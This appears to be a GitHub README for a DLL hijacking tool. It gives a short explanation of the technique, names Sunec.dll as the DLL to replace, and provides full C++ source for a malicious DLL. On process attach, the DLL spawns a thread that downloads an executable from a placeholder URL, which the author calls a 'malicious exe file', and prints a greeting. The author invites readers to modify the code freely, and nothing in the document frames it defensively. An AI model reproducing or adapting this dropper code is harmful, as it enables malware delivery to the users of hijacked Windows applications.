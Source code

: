 ### What is DLL Hijacking? 

DLL hijacking is a method of injecting malicious code into an application by exploiting the way some Windows applications search and load Dynamic Link Libraries (DLL).

Only Microsoft operating systems are susceptible to DLL hijacks.

By replacing a required DLL file with an infected version and placing it within the search parameters of an application, the infected file will be called upon when the application loads, activating its malicious operations.

# What Dll to Hijack?

 - Sunec.dll

##How to use:

In this example i created a console printing "Hello :D", other than that it also downloads a malicious exe file.

This is just an example you can modify it as you wish.


####C++

```c++
#include <tchar.h>
#include <urlmon.h> 
#include <string>
#include <Windows.h>
#include <iostream>
#pragma comment(lib, "urlmon.lib")


std::string GetCurrentDirectory()
{
    char buffer[MAX_PATH] = {};
    DWORD size = GetModuleFileNameA(NULL, buffer, MAX_PATH);
    if (size == 0 || size == MAX_PATH) return "";
    std::string fileName(buffer, size);
    std::string::size_type pos = fileName.find_last_of("\\/");
    return fileName.substr(0, pos + 1);
}

void MainThread() {

    HRESULT download;
    LPCTSTR downloadUrl = "sito + nome.exe", File = "nomexe.exe";
    std::string localFile = GetCurrentDirectory() + File;

    download = URLDownloadToFileA(0, downloadUrl, localFile.c_str(), 0, 0);

    AllocConsole(); freopen("CONOUT$", "w", stdout);

    std::cout << "Hello :D" << std::endl;

    switch (download)
    {
    case S_OK:
        std::cout << "1" << std::endl;
        break;
    case E_OUTOFMEMORY:
        std::cout << "Out of mem" << std::endl;
        break;
    case INET_E_DOWNLOAD_FAILURE:
        std::cout << "0" << std::endl;
        break;
    default:
        std::cout << " " << std::endl;
        break;
    }

}



BOOL APIENTRY DllMain( HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateThread(nullptr, NULL, reinterpret_cast<LPTHREAD_START_ROUTINE>(MainThread), nullptr, NULL, nullptr);
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```



